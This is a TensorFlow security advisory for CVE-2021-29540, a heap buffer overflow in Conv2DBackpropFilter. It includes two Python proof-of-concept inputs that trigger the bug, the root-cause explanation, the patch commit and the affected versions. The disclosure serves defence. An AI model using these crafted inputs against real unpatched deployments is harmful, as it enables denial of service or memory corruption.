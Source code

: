 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2021-028.md
## TFSA-2021-028: Heap buffer overflow in `Conv2DBackpropFilter`

### CVE Number
CVE-2021-29540

### Impact
An attacker can cause a heap buffer overflow to occur in `Conv2DBackpropFilter`:

```python
import tensorflow as tf

input_tensor = tf.constant([386.078431372549, 386.07843139643234],
                           shape=[1, 1, 1, 2], dtype=tf.float32)
filter_sizes = tf.constant([1, 1, 1, 1], shape=[4], dtype=tf.int32)
out_backprop = tf.constant([386.078431372549], shape=[1, 1, 1, 1],
                           dtype=tf.float32)

tf.raw_ops.Conv2DBackpropFilter(
  input=input_tensor,
  filter_sizes=filter_sizes,
  out_backprop=out_backprop,
  strides=[1, 66, 49, 1],
  use_cudnn_on_gpu=True,
  padding='VALID',
  explicit_paddings=[],
  data_format='NHWC',
  dilations=[1, 1, 1, 1]
)
```

Alternatively, passing empty tensors also results in similar behavior:

```python
import tensorflow as tf

input_tensor = tf.constant([], shape=[0, 1, 1, 5], dtype=tf.float32)
filter_sizes = tf.constant([3, 8, 1, 1], shape=[4], dtype=tf.int32)
out_backprop = tf.constant([], shape=[0, 1, 1, 1], dtype=tf.float32)

tf.raw_ops.Conv2DBackpropFilter(
  input=input_tensor,
  filter_sizes=filter_sizes,
  out_backprop=out_backprop,
  strides=[1, 66, 49, 1],
  use_cudnn_on_gpu=True,
  padding='VALID',
  explicit_paddings=[],
  data_format='NHWC',
  dilations=[1, 1, 1, 1]
)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/1b0296c3b8dd9bd948f924aa8cd62f87dbb7c3da/tensorflow/core/kernels/conv_grad_filter_ops.cc#L495-L497)
computes the size of the filter tensor but does not validate that it matches the
number of elements in `filter_sizes`. Later, when reading/writing to this
buffer, code uses the value computed here, instead of the number of elements in
the tensor.

### Patches
We have patched the issue in GitHub commit
[c570e2ecfc822941335ad48f6e10df4e21f11c96](https://github.com/tensorflow/tensorflow/commit/c570e2ecfc822941335ad48f6e10df4e21f11c96).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
